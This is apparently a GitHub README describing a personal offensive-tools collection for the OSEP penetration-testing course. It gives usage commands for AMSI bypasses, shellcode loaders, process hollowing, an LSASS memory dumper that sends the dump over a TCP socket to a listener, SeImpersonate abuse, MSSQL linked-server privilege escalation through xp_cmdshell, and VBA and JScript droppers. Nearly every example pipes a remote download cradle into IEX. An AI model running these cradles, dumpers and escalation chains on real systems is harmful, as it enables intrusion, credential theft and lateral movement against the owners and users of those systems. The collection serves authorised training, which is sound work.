 ### OSEP Tools

Simple collection of tools that i've made mainly for Offsec's OSEP course and exam



##### PowerShell

Powershell scripts:

1. `ad_enum.ps1` - Simple wrapper around PowerView to generate an AD Domain enumeration summary for a given domain

Example usage

```Powershell
## Disable AMSI
(New-Object System.net.WebClient).DownloadString("http://pwndrop.local/amsi.ps1")|IEX
## Load PowerView
(New-Object System.net.WebClient).DownloadString("http://pwndrop.local/PowerView.ps1")|IEX
## Load the wrapper
(New-Object System.net.WebClient).DownloadString("http://pwndrop.local/ad_enum.ps1")|IEX
## Invoke
Invoke-Enum -Domain example.com
```

2. `amsi.ps1` - Simple obfuscated AMSI bypasses based on few different techniques

3. `basic_loader.ps1` - Basic shellcode loader, mainly used for PE shellcode generated with donut

Example usage

```Powershell
## Generate the shellcode of a given PE
donut -i Rubeus.exe -p "triage" -x 2 -o loader.bin
## Invoke the loader after hosting the generated shellcode, at the moment the URL for the shellcode is hardcoded as i was lazy to change it
(New-Object System.net.WebClient).DownloadString("http://pwndrop.local/basic_loader.ps1")|IEX
```

4. `invoke_assembly.ps1` - Simple powershell script to dynamically invoke C# assemblies

Example usage

```powershell
## Host the given assembly and load the script
(New-Object System.net.WebClient).DownloadString("http://pwndrop.local/invoke_assembly.ps1")|IEX
## Invoke the assembly
Invoke-Assembly -Program http://pwndrop.local/Rubeus.exe -Arguments "triage"
```

5. `lsass_dumper.ps1` - LSASS process dumper that is using a tcp socket to exfiltrate the generated memory dumper

Example usage

```powershell
## Prepare a TCP listener, netcat or a simple python script
python receiver.py
## Load and invoke the script
(New-Object System.net.WebClient).DownloadString("http://pwndrop.local/lsass_dumper.ps1")|IEX
Invoke-Dump -Destination 192.168.49.70:12345
## The generated dump can then be parsed with mimikatz or pypykatz
```

6. `process_hollowing.ps1` - Simple process hollowing injection in powershell

Example usage

```powershell
## Load the script and invoke the injection
(New-Object System.net.WebClient).DownloadString("http://pwndrop.local/process_hollowing.ps1")|IEX
Invoke-Hollow -Shellcode http://pwndrop.local/sc.bin -Process "C:\Windows\System32\svchost.exe"
```

7. `scexec.ps1` - Powershell script for lateral movement based on the SCExec technique (Windows service manager)

Example usage

```powershell
## Change the required parameters
$target = "192.168.1.25"
$service = "SensorService"
$payload = "C:\windows\system32\cmd.exe /c powershell /c whoami"

## Execute the script 
(New-Object System.net.WebClient).DownloadString("http://pwndrop.local/scexec.ps1")|IEX
```

8. `spawn_and_inject.ps1` - Classic Spawn and inject shellcode runner

Example usage

```powershell
## Load the script and invoke
(New-Object System.net.WebClient).DownloadString("http://pwndrop.local/spawn_and_inject.ps1")|IEX
Invoke-Injection -Shellcode http://pwndrop.local/demon.bin -Process C:\Windows\System32\notepad.exe
```



##### CSharp

Csharp based tools:

1. `Dll_Dropper.cs` - Simple DLL based in csharp that can be used to inject shellcode or spawn powershell download cradle in a custom runspace, it depends on [DllExport](https://github.com/3F/DllExport)
It can be run with `rundll32.exe` or any other DLL loading method, there are two functions exported one for the injector (Inject) and one for powershell (PSRun)

2. `SEImpersonate.cs` - Custom tool to abuse the `SeImpersonatePrivilege` by creating a named pipe and impersonating the connected client. The tool expects two arguments: program to spawn and pipe to create. It was designed to be used with [SpoolSample.exe](https://github.com/leechristensen/SpoolSample), however any other coercion method should do

Example usage

```powershell
## Preapre the named pipe and specify what should be ran, it can be a loader, powershell download cradle or any other program
impersonate.exe C:\windows\system32\cmd.exe \\.\pipe\test\pipe\spoolss
## Run spool sample to coerce the host to connect to our named pipe
SpoolSample.exe WEB05 WEB05/pipe/test
```

3. `Service.cs` - Basic shellcode loader in the form of a windows service, mainly used for lateral movement with psexec or persistence

4. `SQL.cs` - Simple utility to abuse MSSQL integrated authenticaton, it can be used for enumeration, command execution and linked server abuse or ntlm relaying.

Example usage

```powershell
## Enumerate the current user access to the specified instance: privileges, linked servers, impersonation accounts etc..
sql.exe --host db05 --operation enum

## Execute OS commands through two methods:
## 1. standard xp_cmdshell
## 2. OLE object creation
sql.exe --host db05 --operation exec --cmd whoami
sql.exe --host db05 --operation exec-ole --cmd whoami

## Coerce the SQL server to authenticate against arbitrary share trough xp_dirtree, ntlm hash can be captured or the auth relayed
sql.exe --host db05 --operation dirtree --rhost 192.168.1.221

## Execute raw sql queries
sql.exe --host db05 --operation query --raw "SELECT SYSTEM_USER()"

## Linked servers and impersonation can also be used
sql.exe --host db05 --operation exec --cmd whoami --link db06 --as-user sa
sql.exe --host db05 --operation exec-ole --as-user sa
sql.exe --host db05 --operation exec-old --link db06

## Example traverse linked service for privilege escalation
SQL.exe --host db01 --operation query --raw "EXECUTE AS LOGIN = 'dev_int'; EXEC ('EXEC (''select SYSTEM_USER'') at DB01') AT DB02;"

## Enabling xp_cmdshell and executing commands trough link via raw query
sql.exe --host db01.cowmotors-int.com --as-user dev_int --operation query --raw "EXEC ('EXEC (''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT DB01') AT DB02"
sql.exe --host db01.cowmotors-int.com --as-user dev_int --operation query --raw "EXEC ('EXEC (''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT DB01') AT DB02"
sql.exe --host db01.cowmotors-int.com --as-user dev_int --operation query --raw "EXEC ('EXEC (''xp_cmdshell ''''whoami'''';'') AT DB01') AT DB02"
[+] Authenticated
[+] Executing raw query
nt service\mssql$sqlexpress

## Privilege escalation by following links: db01 (regular user) -> db02 (sa user) -> db01 (sa user)
sql.exe --host db01 --as-user dev_int --operation query --raw "EXEC ('EXEC (''EXEC (''''SELECT SYSTEM_USER'''') AT DB02'') at DB01') AT DB02;"

## Getting command execution trough the same privilege escalation via sql links
*Evil-WinRM* PS C:\windows\tasks> ./sql.exe --host db01.cowmotors-int.com --as-user dev_int --operation query --raw "EXEC ('EXEC (''EXEC (''''sp_configure ''''''''show advanced options'''''''', 1; reconfigure;'''') AT DB02'') at DB01') AT DB02;"
[+] Authenticated
[+] Executing raw query

*Evil-WinRM* PS C:\windows\tasks> ./sql.exe --host db01.cowmotors-int.com --as-user dev_int --operation query --raw "EXEC ('EXEC (''EXEC (''''sp_configure ''''''''xp_cmdshell'''''''', 1; reconfigure;'''') AT DB02'') at DB01') AT DB02;"
[+] Authenticated
[+] Executing raw query

*Evil-WinRM* PS C:\windows\tasks> ./sql.exe --host db01.cowmotors-int.com --as-user dev_int --operation query --raw "EXEC ('EXEC (''EXEC (''''xp_cmdshell ''''''''whoami'''''''';'''') AT DB02'') at DB01') AT DB02;"
[+] Authenticated
[+] Executing raw query
nt service\mssql$sqlexpress
```


##### Initial access

Basic initial access tools

1. `dotnet_exec.js` - Modified version of a DotNetToJS Jscript script, all that it needs is a dotnet based assembly in base64 format (the one that DotNetToJs generates and embeds), however in this case instead of embedding it its download from a webserver

2. `dropper.js` - Simple JSCript dropper that is downloading two files and abusing the Microsoft workflow compiler, mainly used for AppLocker bypass.

3. `ps_dropper.vba` - Simple VBA macro that is executing an obfuscated powershell download cradle

4. `loader.vba` - Simple VBA macro that is fetching shellcode from a remote server and injects it in the word process, mainly used for initial access, keep in mind that you have to migrated to a more stable process after the initial compromise.

5. `source.txt`, `out.xml` - CSharp Spawn and Inject source code for usage with the Microsoft workflow compiler execution technique, out.xml is the XML required by the technique, the two files are hosted on a webserver and then the dropper.js can be send to the victim (or embedded in an HTA app)



##### Python

1. `Lateral.py` - Havoc extension that is used for powershell based lateral movement (WMI or WINRM). It can be used by explicitly supplying credentials or stealing a token.

